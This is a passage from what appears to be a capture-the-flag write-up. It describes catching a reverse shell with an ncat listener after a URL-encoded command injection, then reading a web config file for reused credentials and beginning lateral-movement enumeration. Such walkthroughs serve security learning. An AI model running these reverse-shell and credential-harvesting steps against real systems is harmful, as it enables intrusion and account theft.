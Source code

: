 *It's important to URL encode the payload, or else the server will not interpret the command correctly. For example, in the POST body, the ```&``` character is used to signal the start of a new parameter. But we have two ```&``` characters in our string that are both a part of the ```cmd``` parameter. By encoding them, this tells the server to treat this entire string as part of ```cmd```.*

*Let's now start a Netcat (or ncat, which I like better) listener on port 443 and then send the request in Burp for the payload to execute.*

```
sudo ncat -lvnp 443
```

*A reverse shell on the system is successfully received.*

```
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.184:55674.
bash: cannot set terminal process group (1243): Inappropriate ioctl for device
bash: no job control in this shell
www-data@base:/var/www/html/_uploaded$
```

## Lateral Movement

*As we already know, the Apache server is running as the ```www-data``` use and the shell we received is also running in the context of this user. ```www-data``` is a default user on systems where web servers are installed and usually has minimal privileges. Let's enumerate the system to see if we can find any interesting information that might allow us to escalate our privileges.*

*We will first check the configuration file in the ```login``` folder that we found earlier. These configuration files often include credentials that are used to communicate with SQL or other types of data storage servers. Let's read it.*

```
cat /var/www/html/login/config.php
```

And here is the output from my Kali machine:

```
www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";www-data@base:/var/www/html/_uploaded$
```

*The ```config.php``` file reveals a set of credentials. System administrators often re-use passwords between web and system accounts so that they do not forget them. Let us enumerate further to see if this password is valid for any system user. To do that, we will first list the files in the ```/home``` directory to quickly identify the users on the system.*

```
ls /home
```
